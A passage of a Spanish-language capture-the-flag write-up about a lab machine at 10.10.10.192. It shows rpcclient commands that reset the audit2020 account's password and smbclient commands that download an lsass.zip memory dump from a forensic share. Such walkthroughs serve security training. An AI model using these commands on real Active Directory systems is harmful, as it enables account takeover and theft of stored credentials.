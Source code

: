 ![7](img/7.png)

Investigando como realizar el ataque llegamos a este [articulo](https://malicious.link/post/2017/reset-ad-user-password-with-linux/). Esto nos ayudará a cambiar el password con **rpcclient**.

- `rpcclient -U support 10.10.10.192`
- `setuserinfo2 audit2020 23 'Doom123'`

![8](img/8.png)

Con las nuevas credenciales es posible acceder al directorio **forensics** del smb y descargar los archivos dentro de los directorios. Revisando los archivo nos damos cuenta que **lsass.zip** es el más importante.

- `smbclient //10.10.10.192/forensic -U audit2020`
- `cd memory_analysis\`
- `get lsass.zip`

![9](img/9.png)
